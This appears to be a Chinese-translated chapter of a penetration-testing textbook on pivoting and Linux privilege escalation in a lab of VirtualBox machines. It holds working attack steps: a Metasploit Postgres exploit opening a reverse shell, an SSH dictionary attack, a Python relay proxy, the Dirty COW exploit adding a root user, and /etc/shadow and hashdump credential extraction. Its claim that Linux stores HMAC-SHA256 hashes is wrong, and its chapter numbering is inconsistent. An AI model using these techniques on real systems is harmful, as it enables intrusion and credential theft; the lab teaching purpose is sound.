


## 第十五章：**旋转与权限提升**

*我无法创造的，我无法理解。*

–理查德·费曼


到目前为止，在本书中我们已经探索了多种妥协单一机器的方法。但是攻击者通常希望完全控制他们所针对的整个私有网络。通过完全控制网络，攻击者可以在机器之间自由移动，提取信息并植入恶意软件。此外，一旦攻击者控制了网络，想要将其移除将变得非常困难，因为他们可能隐藏在任何地方。在本章中，我们将探索两种在网络中移动的技术。

首先，你将学习一种旋转技术，攻击者可以通过将流量路由通过一台既连接公有网络又连接私有网络的双网卡设备，从而访问私有网络。其次，我们将使用权限提升攻击从机器的内存中提取用户凭据。在某些情况下，我们可以使用窃取的凭据登录到私有网络中的另一台机器。使用窃取的凭据是攻击者在网络中自由移动的最佳方式之一。

### 从双网卡设备进行旋转

我们通常将任何对所有人开放的网络称为公有网络。例如，互联网就是一个公有网络。另一方面，向公众关闭的网络，例如组织内部的网络，被称为私有网络。然而，私有网络上的用户通常需要访问公有网络上的资源，比如互联网。例如，公司的员工仍然需要访问谷歌。因此，公司通常使用防火墙来安全地桥接公有网络（互联网）和私有公司网络。由于防火墙连接着公有和私有网络，我们将运行防火墙的机器称为*双网卡设备*。

双网卡设备对攻击者至关重要，因为大多数希望访问组织私有网络的公有网络上的攻击者必须通过这个防火墙。通过双网卡设备路由流量以访问网络的技术被称为*旋转*。让我们设置一个测试网络来演示旋转。我们将妥协 Metasploitable 虚拟机，并将其配置为双网卡设备，使用它作为代理来访问私有网络，并攻击一台 Ubuntu 虚拟机。

#### *配置双网卡设备*

我们虚拟环境中的 pfSense 机器是一个双网卡设备的例子，因为它充当了我们的私人网络和公共互联网之间的桥梁。然而，我们不希望在我们的横向渗透演示中妥协 pfSense 机器；它保护我们的设备免受互联网上真正攻击者的攻击。相反，我们将把 Metasploitable 虚拟机转换为一个双网卡设备，并将其连接到另一个包含 Ubuntu 虚拟机的私人网络。图 14-1 展示了我们将要攻击的网络。


*图 14-1：网络概述*

Metasploitable 服务器的主接口在 ➊ 处表示。这是我们将连接到包含 Kali Linux 虚拟机的模拟公共网络的接口。第二个接口 ➋ 连接到私人网络。我们的目标是利用 Metasploitable 服务器并通过它将流量从主接口路由到第二个接口上的私人网络。但首先，我们必须设置虚拟环境。

我们将首先启用 Metasploitable 虚拟机的第二个网络接口，然后将其连接到私人网络。为此，请导航到 VirtualBox 中 Metasploitable 的设置（图 14-2）。



*图 14-2：配置第二个网络接口*

选择 **网络** 标签 ➊，点击第二个适配器 ➋，然后启用它 ➌。将私人网络命名为 **Private LAN** ➍。

接下来，我们必须为刚启用的接口分配一个 IP 地址。我们将通过编辑 Metasploitable 服务器的网络 *接口* 文件来完成此操作。运行以下命令在 `vim` 中打开该文件，Metasploitable 已预安装该编辑器：

```
   msadmin@metasploitable:~# sudo vim /etc/network/interface

   # This file describes the network interfaces available on your system

   # and how to activate them. For more information, see interfaces(5).

   # The loopback network interface

   auto lo

   iface lo inet loopback

   # The primary network interface

   auto eth0
➊ iface eth0 inet dhcp

   # The secondary network interface

   auto eth1
➋ iface eth1 inet static
➌ address 10.0.0.1
➍ netmask 255.255.255.0
```

打开文件时，您应该看到主接口在 ➊ 定义。这个接口通常连接到公共网络。值 `iface eth0` 指的是以太网（`eth0`）接口。有关接口的讨论，请参见 第一章。接下来，`inet` 表示 IPv4 地址，`dhcp` 表示我们将允许 *动态主机配置协议（DHCP）* 服务器为接口分配 IP 地址。DHCP 是路由器通常用来为设备分配 IP 地址的协议，当它们加入网络时。例如，您的家庭 Wi-Fi 路由器内置有一个 DHCP 服务器，这意味着您的笔记本电脑在连接时使用 DHCP 协议获取 IP 地址。这可以确保您的笔记本电脑不会使用已经连接到网络的设备的相同 IP 地址。或者，`static` 的值意味着我们将手动分配 IP 地址。

我们将配置第二个接口，并将其设置为静态 IPv4 地址 ➋ 为 `10.0.0.1` ➌，然后将子网掩码设置为 `255.255.255.0` ➍。保存文件后，运行以下命令启动 `eth1` 接口：

```
msadmin@metasploitable:~# sudo ip link set dev eth1 up
```

最后，重启网络接口：

```
msadmin@metasploitable:~# sudo /etc/init.d/networking restart
```

#### *将计算机连接到您的私人网络*

现在我们已经设置好了双网卡机器，可以将 Ubuntu 虚拟机移动到新的私有网络。但是，一旦我们这么做，它将无法再访问互联网。所以在移动之前，让我们利用这个机会进行配置。

我们将使用 OpenSSH 登录到 Ubuntu 机器。OpenSSH 是一个开源的 SSH 服务器实现，它允许用户通过 SSH 连接到机器。登录到你的 Ubuntu 虚拟机并安装 OpenSSH 服务器：

```
victim@ubuntu:~$ sudo apt-get install openssh-server
victim@ubuntu:~$ sudo systemctl enable ssh
```

安装完成后，通过更新 VirtualBox 中的接口，将 Ubuntu 虚拟机移动到私有网络，连接到**私有局域网**。

接下来，你需要为 Ubuntu 虚拟机上的接口分配一个 IP 地址。因为我们的私有网络没有 DHCP 服务器。通过打开**设置** (图 14-3)来在 Ubuntu 虚拟机上设置静态 IP 地址。



*图 14-3：在 Ubuntu 机器上设置静态 IP 地址*

选择**网络**，点击**设置**齿轮图标，然后点击**IPv4**标签。选择**手动**配置，将 IP 地址设置为**10.0.0.15**，子网掩码设置为**255.255.255.0**，默认网关设置为**10.0.0.1**。

通过 ping 测试，检查是否能从 Ubuntu 虚拟机访问 Metasploitable 服务器。如果能连接到 Metasploitable 服务器，你应该看到以下信息，且没有丢失数据包：

```
victim@ubuntu:~$ ping 10.0.0.1
PING 10.0.0.1 (10.0.0.1): 56 data bytes

64 bytes from 10.0.0.1: icmp_seq=0 ttl=115 time=15.049 ms

64 bytes from 10.0.0.1: icmp_seq=1 ttl=115 time=14.385 ms
64 bytes from 10.0.0.1: icmp_seq=2 ttl=115 time=15.036 ms

64 bytes from 10.0.0.1: icmp_seq=3 ttl=115 time=22.304 ms

64 bytes from 10.0.0.1: icmp_seq=4 ttl=115 time=23.752 ms

64 bytes from 10.0.0.1: icmp_seq=5 ttl=115 time=14.254 ms

64 bytes from 10.0.0.1: icmp_seq=6 ttl=115 time=14.321 ms

^C

--- 10.0.0.1 ping statistics ---

7 packets transmitted, 7 packets received, 0.0% packet loss
round-trip min/avg/max/stddev = 14.254/17.014/23.752/3.835 ms
```

按下 CTRL-C 结束 ping 操作。

虽然你的 Ubuntu 虚拟机可以访问 Metasploitable 机器，但它无法访问私有网络之外的任何内容。同样，私有网络之外的机器也无法访问 Ubuntu 虚拟机。这意味着你已经正确设置了双网卡机器和私有网络。现在，让我们讨论如何通过攻击 Metasploitable 机器并将其转变为虚拟环境内部局域网和私有局域网之间的桥梁来访问私有网络。我们通常将这个桥梁称为*代理*，它是一个程序，负责从一个连接获取数据并将其传递到另一个连接。你可以把它想象成一个中介，帮助两台机器之间建立连接。

#### *使用 Metasploit 进行 pivoting*

Metasploit 框架内置了代理功能，让我们利用它从头到尾执行一次 pivoting 攻击。我们将从 Kali Linux 虚拟机扫描 Metasploitable 服务器开始。一旦找到漏洞，我们将利用它并上传一个反向 Shell。然后我们将检查 Metasploitable 服务器是否可以访问多个网络。

在我们发现它可以后，我们将使用 Metasploitable 服务器作为代理，访问包含我们 Ubuntu 虚拟机的私有网络。然后，我们将使用盗取的 SSH 凭据登录到私有网络中的 Ubuntu 虚拟机，并上传另一个反向 shell。最后，我们通过 Metasploitable 服务器上的代理路由我们的命令，从而控制私有局域网中的反向 shell。

让我们开始吧。使用我们在第八章中讨论的漏洞扫描器扫描 Metasploitable 服务器。*Nexpose* 漏洞扫描器允许你从 Metasploit 控制台进行扫描。请记住，这些扫描器使用启发式方法，这意味着它们可能错误地识别漏洞。因此，你可能需要尝试多个漏洞，直到发现一个能让你访问机器的漏洞。

我们在第八章中讨论了扫描，因此我假设你已经识别了一些漏洞。为了多样化，我们不利用我们可靠的 FTP 漏洞，而是利用 Postgres 服务器中的一个漏洞，该漏洞允许我们通过利用配置错误上传一个反向 shell。如果你还没开始，请在 Kali Linux 上启动 Metasploit：

```
kali@kali:~$ sudo msfconsole
```

接下来，输入`**use**`关键字并指定漏洞利用路径来选择 Postgres 漏洞利用。由于我们没有选择有效载荷，Metasploit 将默认使用`reverse_tcp` Meterpreter 有效载荷。有关不同类型有效载荷及其选择方法的概述，请参见第十章。

```
msf6 > use exploit/linux/postgres/postgres_payload

[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
```

然后，我们将设置远程主机的 IP 地址（`RHOST`）。在我们的例子中，这是 Metasploitable 服务器的 IP 地址（`192.168.1.101`）。接着，我们通过输入`**run**`来执行漏洞利用。

```
msf6 exploit(linux/postgres/postgres_payload) > set RHOST 192.168.1.101
RHOST => 192.168.1.101
msf6 exploit(linux/postgres/postgres_payload) > run

[*] Started reverse TCP handler on 192.168.1.115:4444

[*] 192.168.1.112:5432 - PostgreSQL 8.3.1 on i486-pc-linux-gnu, compiled by GCC .....
[*] Uploaded as /tmp/VfnRAqLD.so, should be cleaned up automatically
[*] Sending stage (976712 bytes) to 192.168.1.101
[*] Meterpreter session 1 opened (192.168.1.115:4444 -> 192.168.1.101:52575) at .....
meterpreter >
```

现在我们已经有了 Meterpreter shell，接下来让我们检查 Metasploitable 服务器上的接口：

```
   meterpreter > ipconfig

   ...
➊ Interface  3

   ============

   Name         : eth1

   Hardware MAC : 08:00:27:d1:f1:26

   MTU          : 1500

   Flags        : UP,BROADCAST,MULTICAST
➋ IPv4 Address : 10.0.0.1

   IPv4 Netmask : 255.255.255.0

   IPv6 Address : fe80::a00:27ff:fed1:f126

   IPv6 Netmask : ffff:ffff:ffff:ffff::
```

为了简化，我在输出中省略了回环接口和主接口，因为它们在网络连接设备中始终存在。我们看到了一个新的接口➊，这表示该机器已连接到另一个网络。现在我们可以添加一个*路由*，允许我们将流量从虚拟环境的内部局域网发送到私有局域网➋。*路由*是网络表中的一项条目，它指示操作系统如何在接口之间转发数据包。添加路由后，我们将把 Meterpreter 会话发送到后台，以便我们可以访问原始的 Metasploit 控制台。使用`**back**`命令取消当前模块的选择：

```
meterpreter > run autoroute -s 10.0.0.1/24
meterpreter > background

[*] Backgrounding session 1...
msf6 exploit(linux/postgres/postgres_payload) > back
```

现在让我们将一个反向 shell 加载到 Ubuntu 虚拟机上。虽然你可以直接登录 Ubuntu 来完成此操作，但我们将通过假设你事先不知道凭证，来模拟一个真实的攻击场景。假设在攻击的 OSINT 阶段，你已经获取了一些凭证，现在可以使用这些凭证进行基于字典的攻击。我们将尝试每个凭证，并希望其中一个能够让我们登录到 SSH 服务器。在你的 Kali Linux 桌面上创建一个名为*Ubuntu_passwords.txt*的文件，里面包含 Ubuntu 机器的用户名和密码。每一对用户名和密码应该单独一行，用户名和密码之间用空格分隔。添加一些虚假的凭证，但记得也包括你 Ubuntu 机器的用户名和密码，以便可以访问该机器。以下是一个示例：

```
victim 1234
user1 trustno1
```

使用此文件在 SSH 服务器上进行基于字典的攻击。我们首先选择 Metasploit 的`ssh_login`模块。然后设置远程主机，提供密码文件，最后运行该模块：

```
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login)>set RHOST 10.0.0.15
RHOST => 10.0.0.15
msf6 auxiliary(scanner/ssh/ssh_login)>set USERPASS_FILE /home/kali/Desktop/Ubuntu_passwords.txt
USERPASS_FILE => /home/kali/Desktop/Ubuntu_passwords.txt
msf6 auxiliary(scanner/ssh/ssh_login)>run
```

当攻击完成后，你应该可以在 Ubuntu 虚拟机上运行一个 shell。运行以下命令查看所有会话的列表：

```
msf6 auxiliary(scanner/ssh/ssh_login) > sessions -l
Active sessions

===============

  Id  Type                        Connection

  --  ----                        ----------

   1  meterpreter x86/linux       192.168.1.115:4444 -> 192.168.1.112:41206 (192.168.1.112)

   2  shell linux                 192.168.1.115-192.168.1.112:59953 -> 10.0.0.15:22 (10.0.0.15)
```

会话 2 是运行在 Ubuntu 机器上的 Linux shell。连接栏显示，从 192.168.1.115（Kali Linux）到 192.168.1.112（Metasploitable）再到 10.0.0.15（Ubuntu）之间的连接流。要在 Ubuntu 虚拟机上执行命令，运行以下命令选择会话 2。然后尝试运行像`**ls**`这样的终端命令：

```
msf6 > sessions 2

[*] Starting interaction with 2...
ls
Desktop
Documents
Downloads
```

现在，你可以从外部网络控制私有局域网中的 Ubuntu 虚拟机。

在这个示例中，我们使用了 Metasploit 的代理。接下来，我们将讨论如何编写你自己的代理。

#### *编写攻击者代理*

创建一个名为*ProxyFun*的文件夹，并将以下代码复制到该文件夹中的新文件*proxy.py*：

```
from SocketServer import BaseRequestHandler, TCPServer
from socket import socket, AF_INET, SOCK_STREAM
import sys
class SockHandler(BaseRequestHandler):

   ➊ def handle(self):

        self.data = self.request.recv(1024)

        print "Passing data from: "+ str(self.client_address[0]) + " to " + external_LAN_IP

        print self.data

        socket = socket(AF_INET, SOCK_STREAM)

        try:

        ➋   socket.connect((external_LAN_IP, external_LAN_PORT))

             socket.sendall(self.data)

             while 1:

                 command = socket.recv(1024)

                 if not command:

                     break

                 self.request.sendall(command)

         finally:

             socket.close()

if __name__ == '__main__':

      private_LAN_IP, private_LAN_PORT, external_LAN_IP, external_LAN_PORT = sys.argv[1:]

   ➌ myserver = TCPServer((private_LAN_IP, private_LAN_PORT), SockHandler)

      myserver.serve_forever()
```

代理启动一个 TCP 服务器，监听私有局域网的 IP 地址➌。记住，我们的目标，Ubuntu 虚拟机，只能访问私有网络中的 IP 地址。所以，如果我们想与它通信，必须设置一个 TCP 服务器，监听与连接到私有网络的接口关联的 IP 地址。

目前，我们假设已经在 Ubuntu 虚拟机上植入了反向 shell，因此我们可以专注于查看数据如何从私有局域网中的反向 shell，通过代理流向攻击者的 Kali Linux 机器，并进入模拟的公共网络。

首先，反向 shell 将连接到私有局域网中的代理 IP 地址。当 shell 连接到代理并发送其第一条消息时，代理将从消息中提取数据 ➊，并在外部局域网上打开到黑客服务器的新 TCP 连接。代理将把来自私有局域网的 shell 数据转发到外部局域网，充当桥梁 ➋。代理还将监听来自外部局域网的流量，并将其转发到私有局域网中的 shell。太棒了！现在，你应该有一个连接私有局域网和外部局域网的双向桥梁。

现在，让我们测试一下代理。我们不再运行我们在 第四章中编写的 TCP 服务器代码，而是保持此测试轻量级。我们将使用 netcat (`nc`) 启动一个新的 TCP 服务器，该服务器在端口 (`p`) 5050 上监听（`l`）。我们还将启用详细标志（`v`），以打印出连接信息：

```
kali@kali:~$ nc -lvp 5050
```

接下来，将 *proxy.py* 文件复制到 Metasploitable 服务器并运行：

```
msfadmin@metasploitable:~$ python3 proxy.py 10.0.0.1 4040 <Kali IP address> 5050
```

现在，代理已经启动并运行，打开私有网络上的 Ubuntu 虚拟机。我们不再使用我们在 第四章中编写的反向 shell，而是使用 netcat 连接到代理。

```
victim@ubuntu:~$ nc 10.0.0.1 4040
```

在运行 netcat 的 Ubuntu 终端中输入短语 `**BOT Reporting For Duty**`。如果代理正常工作，它将把私有局域网的流量路由到你 Kali Linux 机器上的终端。

### 在 Linux 上提取密码哈希

一旦你获得了机器的访问权限，你可以尝试从机器的内存中提取用户凭证，用于登录其他机器并在网络中移动。本节介绍了如何使用特权提升技术从 Linux 机器中提取用户名和密码哈希。

#### *Linux 存储用户名和密码的位置*

操系统将用户名存储在*/etc/passwd* 文件中，任何人都可以读取该文件。文件名具有误导性，因为它不包含任何密码。不过，我们仍然可以从这个文件中获取有用的信息，例如账户是否需要密码。运行以下命令查看该文件的内容：

```
kali@kali:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
```

每个条目的属性由冒号分隔，格式如下：

```
username:has_password:user_id:group_id:user_info:shell_path
```

第二个属性 `has_password` 指示用户是否具有密码。该属性中的 `x` 表示用户账户有密码，空字段则表示是一个不需要密码的访客账户。

那么，操作系统将密码存储在哪里呢？毕竟，它必须保留密码的副本，以便与用户登录时输入的值进行比较。Linux 不存储明文密码。相反，它将密码的 HMAC-SHA256 哈希存储在文件*/etc/shadow*中。当用户登录时，Linux 会对密码进行哈希运算，将其与存储的哈希进行比较，如果匹配，则授予访问权限。

你可以通过读取*/etc/shadow* 文件来提取这些密码哈希；然而，如通过运行`**ls**`命令并使用`**-l**`选项所见，你需要 root 权限才能执行此操作：

```
msfadmin@metasploitable:~$ ls -l /etc/shadow

-rw-r-----  1 root     shadow   1233 2042-05-20 17:30 shadow
```

标签`-rw-r-----`表示文件的权限。图 14-4 解释了 Linux 权限的结构。

*/etc/shadow/* 文件的权限表明，只有所有者（`root`）和组（`shadow`）可以读取该文件，并且只有 root 用户可以写入该文件。

如果我们运气好，我们可能已经找到了一个具有 root 权限的用户凭证，并可以通过输入`sudo -i`获得 root 访问权限。但假设我们运气不好，依然可以通过利用操作系统中的漏洞来获得 root 权限，这一过程通常被称为*权限提升*。


*图 14-4：Linux 权限*

攻击者可能使用多种技术来获取系统的 root 权限。例如，他们可能使用缓冲区溢出攻击向内核模块或驱动程序注入代码。然后，内核模块将以 root 权限执行该代码，从而让黑客获得一个具有 root 权限的反向 Shell。

攻击者还可以利用文件或目录上的不正确权限来提升权限。例如，如果一个进程以 root 权限执行某个文件，攻击者可以修改该文件，使其包含运行反向 Shell 的代码。

`unix-privesc`工具预装在 Kali Linux 中，允许你检查系统中可能允许权限提升攻击的漏洞：

```
unix-privesc-check standard
```

Meterpreter shell 也内建了类似的功能。你可以使用`getsystem`命令搜索并利用可能的权限提升漏洞：

```
meterpreter > getsystem
```

获得 root 权限后，运行 Meterpreter 模块`**hashdump**`来从系统中提取哈希值。

```
meterpreter > run hashdump
```

现在我们已经大致了解了这些权限提升的方式，接下来让我们看一个例子。

#### *执行一个 Dirty COW 权限提升攻击*

2016 年，Phil Oester 发现了一个被称为*Dirty COW*的内核级漏洞。该漏洞（CVE-2016-5195）允许没有 root 权限的攻击者通过利用 Linux 内核管理内存的错误来编辑任何文件。除了其他的漏洞外，攻击者可以利用该漏洞编辑我们之前讨论的*/etc/shadow* 文件，从而创建一个具有 root 权限的新用户。

这个漏洞得名于 Linux 内核管理*虚拟内存*的过程。虚拟内存是操作系统用来为进程提供独立内存空间的机制。它通过创建一个表格，将进程的虚拟内存地址映射到内存中的实际物理地址。因为不同的进程可能共享库或文件，所以两个进程可能会有虚拟内存地址指向相同的物理内存。只有当一个进程写入内存时，虚拟内存才会创建副本，这个过程称为*写时复制（COW）*。

**脏牛漏洞**（Dirty COW）通过欺骗操作系统让用户编辑他们不拥有的文件。它利用了 Linux 内核中的竞态条件（*race condition*）。当两个或更多线程同时争抢访问一个变量，而程序的输出依赖于线程完成的顺序时，就会发生竞态条件。攻击者可以通过重复执行多个对顺序敏感的操作，直到它们达到一个有利的事件顺序，从而利用竞态条件。

脏牛漏洞利用了与 Linux 内核读取和写入文件相关的竞态条件。Linux 内核阻止进程写入只读文件，但它允许进程写入只读文件的副本。当一个进程写入它自己的副本时，Linux 内核通常会按以下顺序执行事件：1）打开一个特定进程的文件副本，2）写入副本，3）丢弃更改并映射回原始文件，从而保持原始文件不变。

然而，如果攻击者使用两个线程独立地写入和丢弃更改，就可能发生竞态条件，导致内核执行顺序错误：1）打开一个特定进程的文件副本，3）丢弃更改并映射回原始文件，2）写入副本，而此时副本已变成原始文件。在这种情况下，攻击者成功欺骗了内核，允许他们写入一个只读文件。

我们可以利用这个漏洞来编辑只读的密码文件，并添加一个具有 root 权限的新用户。让我们在 Metasploitable 服务器上执行这个权限提升攻击。我们首先开始确认服务器是否存在漏洞。登录到服务器后，运行 `**whoami**` 命令获取当前用户，运行 `**uname -a**` 命令获取当前的 Linux 版本：

```
msfadmin@metasploitable:~$ whoami
msfadmin
msfadmin@metasploitable:~$ uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
```

当你得知服务器的 Linux 版本时，使用 `searchsploit` 来搜索已知的影响该版本的漏洞：

```
kali@kali:~$ searchsploit Linux Kernel 2.6.24

------------------------------------------------ -----------------------
Exploit Title                                   |  Path

------------------------------------------------ -----------------------
Linux Kernel (Solaris 10 / < 5.10 138888-01) -  | solaris/local/15962.c
Linux Kernel 2.4.1 < 2.4.37 / 2.6.1 < 2.6.32-rc | linux/local/9844.py

...
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW /proc/se | linux/local/40847.cpp
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW PTRACE_P | linux/local/40838.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE | linux/local/40839.c
```

如你所见，Dirty COW 有多个实现方式。一些实现利用该漏洞更改密码文件，而其他实现则利用它将 Shell 代码注入具有 SUID 权限的文件中。*SUID*是 Linux 中的一种权限，允许普通用户以文件所有者的权限执行文件。例如，普通用户可以用 root 权限执行`ping`命令，即使他们不是 root 用户，因为设置了 SUID 权限。

一些漏洞比其他漏洞更可靠。*Dirty COW PTRACE*漏洞在运行 Metasploitable 服务器的 Linux 版本上表现得非常稳定。

漏洞利用代码可在你的 Kali Linux 虚拟机上找到。使用`**searchsploit**`，提供漏洞编号`**40839.c**`，并使用`**-p**`选项查找漏洞代码的路径：

```
kali@kali:~$ searchsploit -p 40839

  Exploit: Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race

			 Condition Privilege Escalation (/etc/passwd Method)

     URL: https://www.exploit-db.com/exploits/40839

     Path: /usr/share/exploitdb/exploits/linux/local/40839.c
File Type: C source, ASCII text, with CRLF line terminators
```

接下来，将代码复制到 Metasploitable 机器上：

```
kali@kali:~/$ scp /usr/share/exploitdb/exploits/linux/local/40839.c msfadmin@192.168.1.101:~/
```

编译并执行漏洞利用代码：

```
msfadmin@metasploitable:~$ gcc -pthread 40839.c -o kernelexploit -lcrypt
```

现在运行漏洞利用代码（`kernelexploit`）。系统会提示你创建一个新的 root 用户（`firefart`），并为其设置密码。我在这里选择了`147`：

```
msfadmin@metasploitable:~$ ./kernelexploit

/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 147
Complete line:
firefart:fibyOYsv7UnQ6:0:0:pwned:/root:/bin/bash

mmap: b7fa7000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '147'.
```

切换到新创建的具有 root 权限的用户：

```
msfadmin@metasploitable:~$ su firefart
Password:
```

现在，你应该能够读取包含密码哈希的*/etc/shadow*文件：

```
firefart@metasploitable:/home/msfadmin# cat /etc/shadow
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:14742:0:99999:7:::

...
```

该条目应包含用户密码的 HMAC-SHA256 哈希值。你可以使用第十二章中介绍的工具来破解这些哈希。如果成功，你将提升权限并提取系统用户的明文密码。

现在，你可以使用这些凭据登录到其他机器。最好的凭据是管理员凭据，因为管理员负责维护网络，并通常可以访问所有机器。然而，普通用户的凭据也很有用，因为他们可能能够访问网络上的其他机器，比如桌面或打印机。像`spray`这样的工具可以让你同时测试多个密码和连接。然而，这些工具会做一些不寻常的事情，可能会生成安全警报，所以你在使用时要小心。

那些你无法破解的哈希值怎么办？你仍然可以利用它们执行其他攻击，例如我们将在第十五章中讨论的*传递哈希攻击*。

### 练习

这些练习旨在增强你对权限提升和跳板攻击的理解。在第一个练习中，你将扩展你的 Metasploitable 机器，使其能够将流量从私有网络路由出去，将其转变为一个完全功能的路由器。第二个练习提供了一些关于 Windows 设备权限提升的推荐阅读材料。

#### *为双网卡设备添加 NAT*

通过启用 NAT，允许你的双网卡设备像路由器一样将数据包从私有网络路由出去。首先，你必须启用 IP 转发：

```
msfadmin@metasploitable:~$ echo 1 > /proc/sys/net/ipv4/ip_forward
```

就像你在第二章中执行的 ARP 欺骗攻击一样，我们需要启用`ip_forward`，这样机器就能接收并转发那些 IP 地址不匹配的包。接下来，设置`iptables`，允许 Metasploitable 虚拟机将来自私有网络的数据包路由到虚拟环境的内部网络：

```
msfadmin@metasploitable:~$ iptables -t nat -A POSTROUTING -s 10.0.0.0/24 -o eth1 -j MASQUERADE
```

通过从你的 Ubuntu 虚拟机在私有局域网中 ping pfSense 防火墙，检查是否能够访问外部世界：

```
victim@ubuntu:~$ ping 192.168.1.1
```

#### *Windows 权限提升的推荐阅读*

查看 Hanno Heinrichs 的博客文章《利用 GlobalProtect 进行权限提升，第一部分：Windows》，地址为*[`www.crowdstrike.com/blog/exploiting-escalation-of-privileges-via-globalprotect-part-1/`](https://www.crowdstrike.com/blog/exploiting-escalation-of-privileges-via-globalprotect-part-1/)*。Crowdstrike 的博客是查找新漏洞信息的好地方。

另一个很棒的权限提升漏洞是 Sudo 缓冲区溢出漏洞（CVE-2021-3156）；你可以在这里阅读更多内容：[`github.com/stong/CVE-2021-3156`](https://github.com/stong/CVE-2021-3156)。
